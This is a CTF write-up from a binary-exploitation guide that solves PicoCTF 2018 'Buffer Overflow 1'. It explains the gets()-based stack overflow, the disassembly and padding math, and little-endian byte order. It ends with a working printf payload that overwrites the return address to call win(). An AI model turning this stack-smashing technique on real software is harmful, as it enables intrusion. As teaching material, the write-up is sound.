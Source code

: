 ```yaml
---
title:  PicoCTF 2018 - Buffer Overflow 1
description: The training-wheels come off, and you have to use the buffer-overflow vulnerability to execute a specific bit of code at an exact location in memory. The question is, can you get it to work?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Buffer Overflow 1

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

Once again, finding the bug is easy, as it's almost identical to the [last challenge]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}):

```c
#define BUFSIZE 32

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

The buffer once again lives on the stack and has a fixed size (32 bytes). There are no other variables on the stack. The `gets` function is used, which is highly **unsafe**, as it will copy characters from `stdin` until either a newline character is found or the *end-of-file* is reached, making it trivial to overflow the `buf` variable and overwrite anything following it in memory, including the stack frame's preserved `ebp` register and *return address*.

## Strategy

Now that we found the bug, we need a plan to use that bug in a way that will allow us to capture the flag. They've taken off the training wheels *slightly* here, as there is no segfault handler registered. However, there **is** a handy dandy function that will print out the flag if called:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

Since we no longer have a default-crash handler to fallback on, we will have to actually change the flow of execution so that the `win()` function gets called. Here, the `win()` function has been compiled into the program and exists within the `.text` segment of the binary at a fixed address (ASLR does not apply as the program is not compiled as a [Position-independent Executable](https://en.wikipedia.org/wiki/Position-independent_code) or *PIE*). **Note**: if you install [`pwntools`](https://github.com/Gallopsled/pwntools) you can run `checksec` from your shell to quickly check the security properties of binaries, including whether they are compiled as PIE. Use `readelf -s` or `objdump -t` to display the address of all the exported symbols within the binary:

```
$ checksec ./vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

$ readelf -s ./vuln | grep win
    67: 080485cb   100 FUNC    GLOBAL DEFAULT   14 win
```
{:.contains-term}

In this case, the code for the function `win()` begins at the address `0x080485cb`. 

If you were paying attention during [buffer overflow 0]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}) you might have a good idea of what to do now, so go and attempt the problem located at `/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613` on the shell server.

## Background Info

You should recall from [buffer overflow 0]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}) that the stack looks something like this after calling `vuln()`:

| lower addresses | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | --- |
| `buf[32]` | &lt; padding &gt; | &lt;old ebp&gt; | &lt;*return address*&gt; |

In order to change the flow of execution, what we need to do is overwrite the *return address* so that when the `ret` instruction is called, the execution continues at the memory address *we want* (instead of whatever instructions followed the call to `vuln()`). We know there are 32 bytes allocated for the buffer, but we don't yet know for sure how many padding bytes there are.

To figure it out, we once again peak at the assembly code for `vuln()` using `objdump -M intel -S ./vuln`:

```nasm
push   ebp
mov    ebp,esp
sub    esp,0x28
sub    esp,0xc
lea    eax,[ebp-0x28]
push   eax
call   8048430 <gets@plt>
add    esp,0x10
call   80486c0 <get_return_address>
sub    esp,0x8
push   eax
push   0x80487d4
call   8048420 <printf@plt>
add    esp,0x10
nop
leave  
ret  
```

In this case, 0x28 (40) bytes are reserved on the stack, meaning there are an additional **8 bytes of padding**.

**NOTE**: *For the curious, this value of padding is likely chosen because the compiler is required to keep 16-byte alignment on the stack as part of the **ABI**, and reserving 40 bytes in addition to the 4 bytes for the preserved `ebp` register and the 4 bytes for the **return address** results in a total of exactly 48 bytes, which is a multiple of 16. You'll notice the call to `gets` first reserves 0x0c (12) bytes off the stack, before pushing 4 more (the value of `eax`), again resulting in a perfect 16 byte alignment.*

## Exploitation

We've calculated that if we start from the beginning of `buf[]`, then there are exactly **32** (`buf`) + **8** (*padding*) + **4** (*preserved `ebp`*) bytes before the *return address*. We've also determined that we should execute the `win()` function, which is at address `0x080485cb`.

In general, we don't care about the bytes that end up in the `buf[]` variable or the `padding`. We may care about the bytes that end up in the `ebp` register (the previous challenge proved that), but in this case we know that even if returning from `win()` results in a crash, it will have already printed out the flag because the `stdout` stream has been explicitly set to non-buffered (`_IONBF`).

So, when prompted, we should provide 44 bytes of *something* (I arbitrarily chose 0x55, aka 'U', because of the repeating cycle of `0`s and `1`s when represented in binary), followed by the address of `win`. Recall, `gets()` will only copy up to the first newline ('`\n`'), and it will always add a terminating null ('`\0`').

At this point you might be temped to form a string that looks like this:

```
"UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\x08\x04\x85\xcb"
```

However, that won't work:

```
/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613$ printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\x08\x04\x85\xcb" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0xcb850408
Segmentation fault
```
{:.contains-term}

Why did it *segfault*? The hint is in the helpful printing of the return address. Instead of jumping to `0x080485cb`, the program is jumping to `0xcb850408`. The reason is that memory on many machines, including x86 and x86-64 is little-endian. That means that when storing values larger than 1 byte, the bytes are arranged so that the least-significant byte is stored first, followed by the next least-significant, and so on. The least-significant byte of `0x080485cb` is `0xcb`, and that byte should appear first, followed by `0x85`, `0x04`, and `0x08`. Let's try it:

```
/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613$ printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\xcb\x85\x04\x08" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{===REDACTED===}Segmentation fault (core dumped)
```
{:.contains-term}

Eh voilà! You've successfully exploited a buffer-overflow vulnerability. Good Job. Head back to our  [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.